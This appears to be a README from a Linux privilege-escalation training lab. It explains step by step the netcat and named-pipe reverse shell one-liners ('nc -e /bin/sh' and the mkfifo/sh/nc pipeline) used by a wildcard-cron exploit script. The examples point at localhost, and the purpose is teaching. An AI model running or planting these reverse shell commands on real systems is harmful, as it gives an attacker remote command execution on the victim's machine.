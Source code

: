 # Explaining the reverse shell in 5.wildcard-cron

## Tmux

To practice in the docker you need two active sheels. You can use `tmux` for this, which is already preinstalled.
```bash
tmux
```
You will a new shell and you can split the window into two shells. To do that you need to use the `prefix` commands while in `tmux`.
You can find more information [here](https://www.redhat.com/sysadmin/introduction-tmux-linux).
```bash
# Press Ctrl + B
# This activates the prefix
# press % (a.k.a Shift + 5)
# Now you have two shells
# To move between the shells press Ctrl + B followed by left or right arrow.
```

## Netcat
To run netcat within tmux go to the left shell and type:
```bash
# Listen on port 9000
nc -lvnp 9000
```

In the right shell type:
```bash
# Connect to port 9000
nc 127.0.0.1 9000
```

Now you can send text between the listener and the client.

## Reverse Shell
The simplest form of reverse shell you can get in linux and windows is using `netcat` (`nc` command). More information regarding this can be found [here](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

In linux there are two variants, regular and OpenBSD. Depending on the variant and version, you could use the `-e` flag which passes text to another command (in our case that would be a shell).

Assuming we fire up a `netcat` listener.
```bash
# Listen on port 9000
nc -lvnp 9000
```

We can make the client pass every text it receives to a program of our choice (sh) and get the program's output and send it to the listener. Type:
```bash
# Connect to port 9000
nc -e /bin/sh 127.0.0.1 9000
```

In this sense, the listener can send text to client the client sends the text to `/bin/sh` where it is executed as command and the output is sent back to the listener. This is essentially a reverse shell.

## 5.wildcard-cron

In the file `/home/user/5.wildcard-cron/exploit-tarcron.sh` the file `poc.sh` created by the script has the following command inside:
```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/sh -i 2>&1|nc 127.0.0.1 9000 >/tmp/f
```

An equivalent command would be:
```bash
nc -e /bin/sh 127.0.0.1 9000
```
given that our `netcat` version supports the `-e` argument.

### How it works

To understand the command
```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/sh -i 2>&1|nc 127.0.0.1 9000 >/tmp/f
```
we need to introduce a concept in linux and other operating systems called `pipes`. You can find more information about pipes [here](https://opensource.com/article/18/8/introduction-pipes-linux).

There are two kind of pipes:
1. Unnamed pipes
2. Named pipes

and both are used for the same concept: passing input/arguments to another program.

#### Unnamed pipes

You probably have used unnamed pipes before. They are symbolized with `|`.

Example: You want to check if a file contains the word `printf` a common tool for this is grep. You could run something like:
```bash
cat /home/user/1.suid-sgid/src/c-with-suid.c | grep "printf"
```

What this command does is to print the file contents using `cat` and then pass the output to `grep` which will print the line if it matches with the search term (printf in this case).

You can do more elaborate things with unnamed pipes like getting the users sorted from `/etc/passwd`:
```bash
# Print the passwd file
# Pass it to awk, which takes the first occurence after spliting each line by :
# Sort the result 
cat /etc/passwd | awk -F ':' '{print $1}' | sort
```

#### Named pipes
Named pipes are exactly like unnamed pipes, but can be created as special files using the command `mkfifo`. You can think of them as `queues` where you can put some text in them and the text can be consumed by another program, at a different time. In this sense a text is passed to another program, hence the term pipe.

Note that the text can be consumed only once and the pipes are not meant to store data like files.

Here is an example. On the first `tmux` shell type:
```bash
mkfifo /tmp/my_pipe
echo "Some text" >> /tmp/my_pipe
# This will put Some text to the pipe and block until the text is consumed
```

On the second `tmux` shell type:
```bash
tail -f /tmp/my_pipe
# This monitors the last lines of a file or pipe and where the is new data it will print it and wait.
```

The moment you run the `tail` command you will see the "Some text" data sent from the first `tmux` shell. At this point the data is consumed, removed from the `queue`/`fifo`.

You can continue adding data to the pipe by going to the first `tmux` shell and add more text there.

```bash
echo "Some text2" >> /tmp/my_pipe
echo "Some text4" >> /tmp/my_pipe
echo "Some text5" >> /tmp/my_pipe
```

#### Named pipe with reverse shell
The idea using the named pipe for a reverse shell is simple. Unnamed pipes are not enough, but we can combine them with name pipes to achieve the following flow:

1. `Netcat` listener listens on port `9000`.
2. `Netcat` client connects to the listener on `9000`.
3. The listener sends the command `whoami` to the client.
4. The client sends this command to the named pipe.
5. The pipe is configured so that `/bin/sh` receives data from it as input using an unnamed pipe. It gets the command from the pipe, runs it and uses an unnamed pipe again to send it back to netcat client which sends it back to the listener.

Let us break down the command now:
```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/sh -i 2>&1|nc 127.0.0.1 9000 >/tmp/f
```
can be writen line by line as
```bash
# If there is a file named /tmp/f, remove it
rm -f /tmp/f
# Create the named pipe /tmp/f
mkfifo /tmp/f
# Here is where th magic happens (see below).
cat /tmp/f|/usr/bin/sh -i 2>&1|nc 127.0.0.1 9000 >/tmp/f
```

Let us break apart the last command now:
- `cat /tmp/f|/usr/bin/sh -i 2>&1`
  - send the output of the unnamed pipe f to `/usr/bin/sh` run as an interactive shell (`-i` argument).
  - `2>&1` Means redirect stderr (2 fd) stdout (1 fd).
    - This is useful if you want to receive errors the shell gives you such as "Not found".
    - Usually shells print errors to stderr instead of stdout.
- `|nc 127.0.0.1 9000`
  - Connect to localhost, port `9000`.
  - use an unnamed pipe to send the stdout of `/usr/bin/sh` (which now also includes stderr) to `netcat`.
- Until this point we have set up the the shell so that it reads from the named pipe `/tmp/f` execute the command using `/usr/bin/sh` and send the output to the `netcat` client.
- `>/tmp/f`
  - Take whatever netcat receives and send it to the named pipe `/tmp/f`.
  - Note that the named pipe was hooked in `/usr/bin/sh`.
  - This looks like a circular piping, which is why you cannot just use named pipes, since you have to pipe to the `/usr/bin/sh` which started "before" starting `netcat`.